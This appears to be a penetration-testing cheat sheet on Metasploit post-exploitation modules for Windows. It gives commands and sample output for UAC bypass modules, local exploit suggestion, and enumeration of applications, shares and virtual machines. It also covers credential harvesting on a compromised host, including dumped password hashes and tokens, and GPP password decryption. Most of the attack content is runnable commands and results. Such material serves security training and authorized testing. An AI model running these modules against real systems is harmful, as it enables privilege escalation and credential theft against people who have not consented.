

Metasploit Modules
Windows Gather Privileges
This module will print if UAC is enabled, and if the current account is ADMIN enabled. It will also print UID, foreground SESSION ID, is SYSTEM status and current process PRIVILEGES.
Bypassuac
You can use one of the following modules to perform UAC bypass
msf5 > search bypassuac
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/local/bypassuac 2010-12-31 excellent No Windows Escalate UAC Protection Bypass
1 exploit/windows/local/bypassuac_comhijack 1900-01-01 excellent Yes Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
2 exploit/windows/local/bypassuac_eventvwr 2016-08-15 excellent Yes Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
3 exploit/windows/local/bypassuac_fodhelper 2017-05-12 excellent Yes Windows UAC Protection Bypass (Via FodHelper Registry Key)
4 exploit/windows/local/bypassuac_injection 2010-12-31 excellent No Windows Escalate UAC Protection Bypass (In Memory Injection)
5 exploit/windows/local/bypassuac_injection_winsxs 2017-04-06 excellent No Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS
6 exploit/windows/local/bypassuac_silentcleanup 2019-02-24 excellent No Windows Escalate UAC Protection Bypass (Via SilentCleanup)
7 exploit/windows/local/bypassuac_sluihijack 2018-01-15 excellent Yes Windows UAC Protection Bypass (Via Slui File Handler Hijack)
8 exploit/windows/local/bypassuac_vbs 2015-08-22 excellent No Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
9 exploit/windows/local/bypassuac_windows_store_filesys 2019-08-22 manual Yes Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
10 exploit/windows/local/bypassuac_windows_store_reg 2019-02-19 manual Yes Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
Example:

Gather installed applications
msf5 exploit(multi/handler) > use post/windows/gather/enum_applications
msf5 post(windows/gather/enum_applications) > show options
Module options (post/windows/gather/enum_applications):
Name Current Setting Required Description
SESSION yes The session to run this module on.
msf5 post(windows/gather/enum_applications) > set session 1
session => 1
msf5 post(windows/gather/enum_applications) > run
[*] Enumerating applications installed on DESKTOP-L1USHAD
Installed Applications
Name Version
.NET Core SDK 1.1.11 (x64) 1.1.11
.NET Core SDK 1.1.11 (x64) 1.1.11
ClickOnce Bootstrapper Package for Microsoft .NET Framework 4.7.03083
ClickOnce Bootstrapper Package for Microsoft .NET Framework 4.7.03083
FreeMind 1.0.0
FreeMind 1.0.0
Google Chrome 71.0.3578.98
Google Chrome 71.0.3578.98
Google Update Helper 1.3.33.23
Google Update Helper 1.3.33.23
IntelliTraceProfilerProxy 15.0.17289.01
IntelliTraceProfilerProxy 15.0.17289.01
Java 8 Update 201 8.0.2010.9
Java 8 Update 201 8.0.2010.9
Java Auto Updater 2.8.201.9
Java Auto Updater 2.8.201.9
Microsoft .NET Core SDK - 2.1.202 (x64) 2.1.202
Microsoft Office Professional Plus 2013 15.0.4569.1506
Microsoft Visual C++ 2017 x86 Additional Runtime - 14.10.25008 14.10.25008
Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.10.25008 14.10.25008
Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.10.25008 14.10.25008
Microsoft Visual Studio Setup Configuration 1.18.21.37008
Microsoft Visual Studio Setup Configuration 1.18.21.37008
Microsoft Word MUI (English) 2013 15.0.4569.1506
Microsoft Word MUI (English) 2013 15.0.4569.1506
Outils de vérification linguistique 2013 de Microsoft Office - Français 15.0.4569.1506
Outils de vérification linguistique 2013 de Microsoft Office - Français 15.0.4569.1506
TypeScript Power Tool 2.1.7.0
TypeScript Power Tool 2.1.7.0
TypeScript SDK 3.1.2.0
vs_tipsmsi 15.0.27005
vs_tipsmsi 15.0.27005
[+] Results stored in: /root/.msf4/loot/20190206101541_default_192.168.165.128_host.application_399426.txt
[*] Post module execution completed
msf5 post(windows/gather/enum_applications)
credential_collector
The credential_collector module harvests passwords hashes and tokens on the compromised host.
Example:
meterpreter > run post/windows/gather/credentials/credential_collector
[*] Running module against V-MAC-XP
[+] Collecting hashes...
Extracted: Administrator:7bf4f254f224bb24aad3b435b51404ee:2892d23cdf84d7a70e2eb2b9f05c425e
Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Extracted: HelpAssistant:2e61920ebe3ed6e6d108113bf6318ee2:5abb944dc0761399b730f300dd474714
Extracted: SUPPORT_388945a0:aad3b435b51404eeaad3b435b51404ee:92e5d2c675bed8d4dc6b74ddd9b4c287
[+] Collecting tokens...
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
NT AUTHORITY\ANONYMOUS LOGON
meterpreter >
Enum shares
The enum_shares post module returns a listing of both configured and recently used shares on the compromised system.
Example:
meterpreter > run post/windows/gather/enum_shares
[*] Running against session 3
[*] The following shares were found:
[*] Name: Desktop
[*] Path: C:\Documents and Settings\Administrator\Desktop
[*] Type: 0
[*]
[*] Recent Mounts found:
[*] \\192.168.1.250\software
[*] \\192.168.1.250\Data
[*]
meterpreter >
Check if it's a VM
msf5 post(windows/gather/enum_applications) > use post/windows/gather/checkvm
msf5 post(windows/gather/checkvm) > show options
Module options (post/windows/gather/checkvm):
Name Current Setting Required Description
SESSION yes The session to run this module on.
msf5 post(windows/gather/checkvm) > set session 1
session => 1
msf5 post(windows/gather/checkvm) > run
[] Checking if DESKTOP-L1USHAD is a Virtual Machine .....
[+] This is a VMware Virtual Machine
[] Post module execution completed
msf5 post(windows/gather/checkvm) >
Local_exploit_suggester
Metasploit has a nice module to check for local exploits:
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search local_exploit
Matching Modules
================
Name Disclosure Date Rank Check Description
---- --------------- ---- ----- -----------
post/multi/recon/local_exploit_suggester normal No Multi Recon Local Exploit Suggester
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
Weak service permissions
exploit/windows/local/service_permissions
GPP
Decrypting passwords that are stored in the Group Policy Preferences can be done automatically though Metaasploit. The following post exploitation module will obtain and decrypt the cPassword from the Groups.xml file which is stored in the SYSVOL.
post/windows/gather/credentials/gpp